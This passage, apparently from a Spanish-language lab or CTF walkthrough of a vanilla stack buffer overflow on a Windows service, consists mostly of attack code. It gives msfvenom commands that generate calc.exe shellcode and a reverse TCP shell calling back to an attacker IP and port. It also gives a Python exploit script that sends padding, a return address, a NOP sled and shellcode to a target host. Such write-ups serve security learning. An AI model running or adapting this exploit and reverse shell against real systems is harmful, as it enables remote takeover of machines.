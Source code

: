 El siguiente paso a realizar será la creación de la shellcode, en este caso una calculadora, para generarla simplemente se hará uso de msfvenom:

```bash
msfvenom -a x86 -p windows/exec CMD=calc.exe -f c -b '\x00'
```

Aunque también se podrá generar una shell reversa por TCP y de esta manera tomar control de la máquina:

```bash
msfvenom -a x86 -p windows/shell/reverse_tcp LHOST=192.168.1.99 LPORT=9001 -f c -b '\x00' EXITFUNC=thread
```
> Se utiliza la opción EXITFUNC=thread, esto significa que el código de shell se generará como un hilo remoto en lugar de generar desde el flujo de código original, evitando que el programa se bloquee al finalizar la ejecución.

De esta manera se podrá desarrollar el exploit final. También será necesario añadir instrucciones adicionales de NoP (\x90) que se analizarán después del PUSH ESP, estas instrucciones básicamente dicen: "ir a la siguiente instrucción". Se agregan estos para que la carga útil no se mezcle con otras instrucciones, corrompiéndola:

```python
import socket, sys, struct

shell = ("\x60\xf7\x4f\x62\x59\x83\x4d\x88\x24\x06\x39\xe9\xc9\x9c\x8c"
..snip..
"\x18\x60\x23\x8c\x4b")
buffer = "A"*272 + "\x77\x17\x58\x34"  + "\x90"*20 + shell + "\x00"
# \x77\x17\x58\x34 = 0x34581777

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.88", 1985))
print("Sending payload")
s.send(buffer)
s.close()
```
<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-21-Dawn-2-Vanilla-Buffer-Overflow/Pasted%20image%2020210721201618.png" height="500" width="825" /></p>
